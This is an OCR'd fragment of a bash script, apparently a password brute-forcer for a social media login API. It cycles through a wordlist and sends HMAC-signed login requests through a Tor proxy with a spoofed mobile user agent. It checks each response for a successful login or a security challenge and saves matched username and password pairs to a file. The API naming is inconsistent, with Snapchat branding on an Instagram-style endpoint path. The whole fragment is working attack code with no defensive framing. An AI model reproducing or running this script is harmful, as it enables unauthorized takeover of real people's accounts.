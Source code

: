 let startline+=20
let endline+=20

done
}


bf1resume() {

while [ $counter -lt $turn ]; do
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do

count_pass=$(wc -l $wl_pass | cut -d " " -f1)
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'

data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'


let counter++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass

{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9051 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid1=$! ; #;wait $!;

let startline+=20
let endline+=20

done
}

bf2resume() {

while [ $counter2 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do
